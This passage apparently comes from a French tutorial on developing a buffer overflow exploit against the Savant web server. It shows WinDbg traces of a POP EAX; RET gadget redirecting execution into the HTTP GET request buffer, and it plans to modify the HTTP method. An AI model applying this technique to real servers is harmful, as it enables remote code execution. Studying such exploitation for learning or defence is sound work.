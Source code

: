 On exécute la nouvelle preuve de concept :

- Le point d'arrêt est atteint
- Le registre `EIP` est bien initialise a `00418674` sur `POP EAX`
- On avance d'une instruction pour arriver sur `RET`
- On avance d'une instruction pour arriver sur `INC EDI` qui est le début des opcodes génères par la méthode HTTP `GET`

En faisant le `POP EAX;RET` on a bien réussis a retirer le premier DWORD de `ESP` et a exécuté le deuxième qui pointe sur le shellcode. On retrouve les instructions assembleur découlant des opcodes de la fonction `GET`. On observe que `EAX` change de valeur après le `POP EAX` :

```powershell
Breakpoint 0 hit
eax=00000000
[...]
Savant+0x18674:
00418674 58              pop     eax
#
0:004> t
eax=045bfe70
[...]
Savant+0x18675:
00418675 c3              ret
#
0:004> t
[...]
045bea84 47              inc     edi
#
0:004> u @eip
045bea84 47              inc     edi
045bea85 45              inc     ebp
045bea86 54              push    esp
045bea87 0000            add     byte ptr [eax],al
[...]
0:004> dc @eip
045bea84  00544547 00000000 00000000 00000000  GET.............
045bea94  00000000 00000000 4141412f 41414141  ......../AAAAAAA
045beaa4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
[...]
```

En faisant `POP EAX` on s'est assuré que le premier DWORD de `ESP` soit dans `EAX` et comme il pointe sur une adresse de la pile `EAX` ne contiendra pas d'adresse entrainant une violation d'accès. Les instructions découlant de la commande `GET` peuvent donc s'exécuter sans effet de bord.

Cette méthode fonctionnerait, mais exécuter les opcodes découlant de la fonction `HTTP` n'est pas très propre. Il existe d'autres options plus élégantes.

#### Modification de la méthode HTTP

On souhaite trouver un moyen plus subtil que d'exécuter les opcodes découlant de la fonction HTTP, même si ceux-ci sont maintenant fonctionnels. On veut trouver un moyen plus élégant d'atteindre notre buffer de `0x41` :
